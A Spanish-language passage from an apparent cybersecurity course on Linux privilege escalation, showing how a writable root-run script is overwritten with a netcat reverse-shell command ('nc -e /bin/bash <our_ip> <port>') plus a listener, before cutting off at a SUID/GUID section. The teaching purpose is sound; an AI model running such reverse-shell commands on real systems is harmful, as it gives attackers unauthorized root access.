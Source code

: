 En este ejemplo, encontramos que cierto archivo (cleanall.sh) se ejecuta como root y podemos escribir en él. Así que intentamos que ejecute un shell inverso de netcat en nuestra máquina y, si la conexión es exitosa, obtenemos acceso root a la máquina.

- En nuestra máquina iniciamos un oyente netcat:

```bash
nc -lnvp <port>
```

- En nuestro objetivo colocamos en el archivo anterior una conexión con nuestro oyente:

```bash
echo "nc -e /bin/bash <our_ip> <port> > cleanall.sh.
```
> Cuando esto se ejecuta, tenemos nuestro shell raíz.

### Abusar de SUID/GUID

Esto es un poco más complicado, por lo que hay algunos conceptos teóricos de los que se debe hablar. Todo en Linux es un archivo con permisos.

![NoSQL14](https://github.com/4GeeksAcademy/cybersecurity-syllabus/blob/main/assets/NoSQL14-es.png?raw=true)
